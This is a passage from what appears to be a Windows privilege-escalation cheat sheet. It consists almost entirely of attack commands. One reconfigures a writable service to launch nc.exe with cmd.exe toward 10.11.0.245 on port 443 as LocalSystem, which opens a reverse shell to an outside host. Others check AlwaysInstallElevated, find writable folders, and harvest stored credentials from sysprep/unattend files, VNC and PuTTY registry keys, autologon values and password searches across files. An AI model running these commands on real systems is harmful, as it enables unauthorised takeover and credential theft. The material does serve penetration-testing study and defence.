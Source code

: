 ```bash
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *​

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

### Find File/Folder Permissions Explicitly Set for a Given User <a id="find-file-folder-permissions-explicitly-set-for-a-given-user"></a>

```bash
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI <a id="alwaysinstallelevated-msi"></a>

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials: Windows <a id="stored-credentials-windows"></a>

```bash
c:\unattend.xmlc:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

​findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf​

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"​

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"​

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

​# Registry
reg query HKLM /f password /t REG_SZ /s reg query HKCU /f password /t REG_SZ /s
```
